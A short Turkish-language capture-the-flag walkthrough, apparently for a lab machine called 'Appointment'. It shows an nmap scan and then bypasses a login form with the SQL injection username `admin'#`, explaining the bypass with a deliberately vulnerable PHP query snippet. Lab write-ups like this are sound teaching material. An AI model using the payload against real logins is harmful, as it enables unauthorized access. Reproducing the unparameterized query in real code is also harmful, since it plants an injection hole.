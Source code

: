 # Appointment

!!! info "Target IP Address"

    10.129.219.149

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.219.149 -Pn -sV -p 80
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:27 +03
Nmap scan report for 10.129.219.149
Host is up.

PORT   STATE    SERVICE VERSION
80/tcp filtered http

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.43 seconds
```

Web tarayıcısında [http://10.129.219.149](http://10.129.219.149) adresine git. Login formunda kullanıcı adı kısmına `admin'#` ve parola kısmına boşluk olmayan herhangi bir karakter gir.

Kullanıcı adı kısmına girilen bu değer sayesinde yanlış parola ile dahi giriş yapılabilir. Çünkü kullanıcı girdisini doğru şekilde kontrol etmeyen bir PHP kodu aşağıdaki gibi gözükebilir:

```php title="example.php" linenums="1" hl_lines="1"
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
$result=mysql_query($sql);
$count=mysql_num_rows($result);
if ($count==1){
    $_SESSION['username'] = $username;
    $_SESSION['password'] = $password;
    header("location:home.php");
}
```

Kullanıcı adı olarak `admin'#` değeri verildiğinde SQL satırı aşağıdaki gibi olur:

```php
$sql="SELECT * FROM users WHERE username='admin'# AND password='$password'";
```

Bu sorgu hatasız çalışacağından `$count` değişkenin değeri `1` olur ve Login başarılı olur.
